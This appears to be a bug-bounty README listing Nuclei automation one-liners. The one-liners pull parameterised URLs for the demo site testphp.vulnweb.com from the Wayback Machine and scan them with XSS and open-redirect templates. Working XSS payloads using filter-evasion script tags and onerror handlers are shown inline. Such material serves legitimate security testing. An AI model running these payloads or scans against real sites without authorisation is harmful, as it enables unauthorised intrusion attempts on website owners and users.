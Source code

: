 ## NUCLEI AUTOMATION TEMPLATES


**XSS ONE-LINER PAYLOAD `</script><scr<script>ipt>confirm(1)</scr</script>ipt>`**
```
waybackurls testphp.vulnweb.com | grep "=" | sed 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/xss-script.yaml
```

**XSS ONE-LINER PAYLOAD `<img src=x onerror=confirm(1)>`**
```
waybackurls testphp.vulnweb.com | grep "=" | sed 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/xss-img.yaml
```

**XSS ONE-LINER PAYLOAD `<image/src/onerror=confirm(1)>`**
```
waybackurls testphp.vulnweb.com | grep "=" | sed 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/xss-image.yaml
```


**OPENREDIRECT ONE-LINER**
```
waybackurls testphp.vulnweb.com | grep "=" | sed 's/=.*/=/' | anew | uro | nuclei -t ~/tools/templates/openredirect-checker.yaml
```
